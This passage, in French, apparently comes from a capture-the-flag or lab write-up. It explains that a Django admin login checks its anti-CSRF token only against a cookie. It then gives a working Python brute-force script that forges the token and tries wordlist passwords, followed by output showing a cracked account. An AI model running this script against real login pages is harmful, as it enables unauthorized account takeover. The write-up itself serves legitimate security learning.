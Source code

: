 Pire : il semble que le token anti-CSRF est juste conservé comme cookie et que le formulaire compare uniquement la valeur passée par formulaire avec la valeur passée par cookie (pas de stockage côté serveur donc).  

Let me in
---------

Il suffit alors d'écrire un petit outil de force brute qui spécifie pour chaque tentative de login un cookie et un champ anti-csrf identique (ici forcé à "lol").  

```python
import requests
from bs4 import BeautifulSoup

users = set()
with open("users.txt") as fd:
    for line in fd:
        user = line.strip()
        if user:
            users.add(user.lower())

sess = requests.session()

for user in sorted(users):
    print("Trying user {}".format(user))

    with open("passlist.txt") as fd:
        for line in fd:
            password = line.strip()
            if not password:
                continue

            response = sess.post(
                    "http://192.168.3.190/admin/login/", 
                    data={
                        "username": user,
                        "password": password,
                        "csrfmiddlewaretoken": "lol"
                    },
                    headers={"Cookie": "csrftoken=lol"}
            )

            if "Please enter the correct username and password for a staff account." not in response.text:
                print("Found creds {} / {}".format(user, password))
                sess = requests.session()
```

On lui donne notre liste de logins potentiels basés sur les noms trouvés dans /dev/ ainsi qu'une liste de passwords potentiels (mots de passes classiques + les logins + le nom de la société).  

On trouve rapidement un compte faillible.  

```plain
Trying user alan
Trying user alan brooke
Trying user alan.brooke
Trying user ashley
Trying user brooke
Trying user churchy
Trying user kevin
Trying user malik
Trying user nick
Found creds nick / bulldog
Trying user sarah
Trying user william
Trying user winston
```
